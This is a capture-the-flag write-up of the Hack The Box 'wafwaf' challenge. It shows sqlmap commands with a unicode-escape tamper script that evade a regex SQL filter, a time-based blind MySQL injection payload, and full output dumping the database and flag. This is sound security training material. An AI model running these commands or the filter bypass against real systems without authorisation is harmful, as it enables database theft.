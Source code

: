 # wafwaf
![](0.png)

# TLDR
- Read the source code from the index page, and understood that there is a possibility of SQL injection on a POST method with a JSON encoded parameter payload.
- The requests containing SQL syntax were filtered using a regular expression.
- To bypass the filter I used an existing tamper script provided as an argument to `sqlmap`.
- `sqlmap` acquired the flag using time-based blind SQL injection attack after some time.
#### Keywords: `sqlmap`, `time-based blind SQLi`, `JSON body`, `POST`, `--tamper=charunicodeescape`


# How to get the flag?
As soon as I opened the challenge, we got an error page. We can see that the server was running *nginx*.
![](1.png)
I opened up developer console and refreshed the page. But, surprisingly it redirected to *index.php*. We had the source code of the challenge. I proceeded to read the code carefully:
- There was a reference to *config.php*. This probably had the connection configuration to the database. I could not get anything from *config.php*.
- I could see that we had to make a POST request to *index.php*; `user` parameter being in the request body, to attempt an SQLi attack.
- There was a regexp-based filter (kind of like web application firewall; hence, the challenge name wafwaf, maybe?) that would dump matches if it had SQL syntax. So, sending an SQL injection payload in clear text would not work.
- In case of a valid or invalid query we would not get any response dumped to anywhere. But, we could possibly make the page load longer based on query (see time-based SQLi [1]).

![](2.png)

A little bit search on the internet led me to find the article on bypassing WAFs with json unicode escape sequences [2]. This looked exactly what I needed. I gave it a try using `sqlmap`:

```bash
$ sqlmap -u http://178.128.40.63:32080/ --data "{\"user\":\"*\"}"  --method POST --tamper=charunicodeescape
```

- `*` in --data argument's value indicates sqlmap injection point.
- `--tamper=charunicodeescape` argument indicates tampering script for the request's payload. For example, `SELECT` would be `\u0053\u0045\u004C\u0045\u0043\u0054`

Output:
```bash

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:42:16 /2021-01-02/

[10:42:16] [INFO] loading tamper module 'charunicodeescape'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
JSON data found in POST body. Do you want to process it? [Y/n/q] 
[10:42:20] [INFO] testing connection to the target URL
[10:42:20] [INFO] testing if the target URL content is stable
[10:42:20] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[10:42:20] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[10:42:20] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[10:42:20] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[10:42:20] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[10:42:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:42:21] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:42:21] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:42:22] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:42:22] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:42:22] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:42:23] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:42:23] [INFO] testing 'Generic inline queries'
[10:42:23] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:42:23] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:42:23] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:42:23] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:42:34] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[10:42:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:42:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:42:45] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"user":"' AND (SELECT 6697 FROM (SELECT(SLEEP(5)))biyG) AND 'QtYn'='QtYn"}
---
[10:43:04] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:43:04] [INFO] the back-end DBMS is MySQL
[10:43:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[10:43:04] [INFO] fetched data logged to text files under '/home/vscode/.sqlmap/output/178.128.40.63'
[10:43:04] [WARNING] you haven't updated sqlmap for more than 274 days!!!

[*] ending @ 10:43:04 /2021-01-02/
```

I ran `sqlmap` again, this time to dump database names, tables etc. And after some time, I got the flag. All thanks to `sqlmap`.

```bash
$ sqlmap -u http://178.128.40.63:32080/ --data "{\"user\":\"*\"}"  --method POST --tamper=charunicodeescape --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:44:48 /2021-01-02/

[10:44:48] [INFO] loading tamper module 'charunicodeescape'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
JSON data found in POST body. Do you want to process it? [Y/n/q] 
[10:44:52] [INFO] resuming back-end DBMS 'mysql' 
[10:44:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"user":"' AND (SELECT 6697 FROM (SELECT(SLEEP(5)))biyG) AND 'QtYn'='QtYn"}
---
[10:44:52] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:44:52] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[10:44:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:44:52] [INFO] fetching current database
[10:44:52] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)     
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[10:45:03] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[10:45:14] [INFO] adjusting time delay to 1 second due to good response times
db_m8452
[10:45:42] [INFO] fetching tables for database: 'db_m8452'
[10:45:42] [INFO] fetching number of tables for database 'db_m8452'
[10:45:42] [INFO] retrieved: 2
[10:45:44] [INFO] retrieved: definitely_not_a_flag
[10:47:10] [INFO] retrieved: notes
[10:47:31] [INFO] fetching columns for table 'definitely_not_a_flag' in database 'db_m8452'
[10:47:31] [INFO] retrieved: 1
[10:47:32] [INFO] retrieved: flag
[10:47:46] [INFO] fetching entries for table 'definitely_not_a_flag' in database 'db_m8452'
[10:47:46] [INFO] fetching number of entries for table 'definitely_not_a_flag' in database 'db_m8452'
[10:47:46] [INFO] retrieved: 1
[10:47:48] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
HTB{w4f_w4fing_my_w4y_0utt4_h3r3}
Database: db_m8452
Table: definitely_not_a_flag
[1 entry]
+-----------------------------------+
| flag                              |
+-----------------------------------+
| HTB{w4f_w4fing_my_w4y_0utt4_h3r3} |
+-----------------------------------+

[10:50:31] [INFO] table 'db_m8452.definitely_not_a_flag' dumped to CSV file '/home/vscode/.sqlmap/output/178.128.40.63/dump/db_m8452/definitely_not_a_flag.csv'
[10:50:31] [INFO] fetching columns for table 'notes' in database 'db_m8452'
[10:50:31] [INFO] retrieved: 3
[10:50:35] [INFO] retrieved: id
[10:50:42] [INFO] retrieved: note
[10:50:59] [INFO] retrieved: assignee
[10:51:24] [INFO] fetching entries for table 'notes' in database 'db_m8452'
[10:51:24] [INFO] fetching number of entries for table 'notes' in database 'db_m8452'
[10:51:24] [INFO] retrieved: 1
[10:51:26] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
1
[10:51:30] [INFO] retrieved: admin
[10:51:47] [INFO] retrieved: wa^C
[10:51:58] [WARNING] Ctrl+C detected in dumping phase                                                                              
Database: db_m8452
Table: notes
[0 entries]
+------+------+----------+
| id   | note | assignee |
+------+------+----------+
+------+------+----------+

[10:51:58] [INFO] table 'db_m8452.notes' dumped to CSV file '/home/vscode/.sqlmap/output/178.128.40.63/dump/db_m8452/notes.csv'
[10:51:58] [INFO] fetched data logged to text files under '/home/vscode/.sqlmap/output/178.128.40.63'
[10:51:58] [WARNING] you haven't updated sqlmap for more than 274 days!!!

[*] ending @ 10:51:58 /2021-01-02/

```



# References
- [1] https://book.hacktricks.xyz/pentesting-web/sql-injection#exploiting-time-based-sqli
- [2] https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/